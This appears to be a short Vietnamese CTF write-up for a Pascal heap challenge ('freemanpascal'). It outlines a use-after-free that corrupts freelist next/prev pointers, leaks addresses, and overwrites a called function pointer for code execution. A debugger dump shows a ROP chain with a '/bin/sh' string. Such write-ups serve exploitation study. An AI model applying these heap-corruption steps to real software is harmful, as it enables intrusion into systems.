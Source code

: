 # freemanpascal 
- bài được viết bằng pascal và sử dụng heap allocator của pascal
- bug nằm ở việc bị uaf
- trong chương trình có option để edit dữ liệu trong 1 chunk heap, vì thế có thể control được forward và backward pointer sau khi free 
```
The format of an entry in the freelist is as follows:

 PFreeRecord = ^TFreeRecord;  
 TFreeRecord = record  
   Size : longint;  
   Next : PFreeRecord;  
   Prev : PFreeRecord;  
 end;  
```
- bài cũng có hàm show để có thể leak địa chỉ 
- bằng việc overwrite next và prev có thể control được chunk tiếp theo khi allocate, và có thể allocate tới chỗ mong muốn 
- vì bài no-pie với việc gadgets khá là phong phú nên có thể sử dụng để rce, có thể overwrite 
- khi tạo 1 chunk sẽ có chứa 1 địa chỉ mà khi chọn option 5 thì chương trình sẽ call địa chỉ lên, vì vậy khi ghi đè được địa chỉ này là có thể rce
- điạ chỉ: 0x401090 (P$FREEMYMANUAF_$) ◂— push rbp
```c
07:0038│  0x7ffff7f99038 ◂— 0x380a1
andbg> 
08:0040│  0x7ffff7f99040 ◂— 0x3e /* '>' */
09:0048│  0x7ffff7f99048 ◂— 0
0a:0050│  0x7ffff7f99050 ◂— 0
0b:0058│  0x7ffff7f99058 ◂— 0
0c:0060│  0x7ffff7f99060 —▸ 0x7ffff7fa1170 —▸ 0x403e95 (fpc_shortstr_con) ◂— pop rdi
0d:0068│  0x7ffff7f99068 —▸ 0x403e95 (fpc_shortstr_con) ◂— pop rdi
0e:0070│  0x7ffff7f99070 —▸ 0x7ffff7fa1181 ◂— 0x68732f6e69622f /* '/bin/sh' */
0f:0078│  0x7ffff7f99078 ◂— 0x61616161616161 /* 'aaaaaaa' */
andbg> 
10:0080│  0x7ffff7f99080 ◂— 0
11:0088│  0x7ffff7f99088 ◂— 0
12:0090│  0x7ffff7f99090 ◂— 0
13:0098│  0x7ffff7f99098 ◂— 0
14:00a0│  0x7ffff7f990a0 ◂— 0
15:00a8│  0x7ffff7f990a8 ◂— 0
16:00b0│  0x7ffff7f990b0 ◂— 0
17:00b8│  0x7ffff7f990b8 ◂— 0
andbg> 
18:00c0│  0x7ffff7f990c0 ◂— 0
19:00c8│  0x7ffff7f990c8 —▸ 0x401090 (P$FREEMYMANUAF_$) ◂— push rbp
1a:00d0│  0x7ffff7f990d0 ◂— 0
```
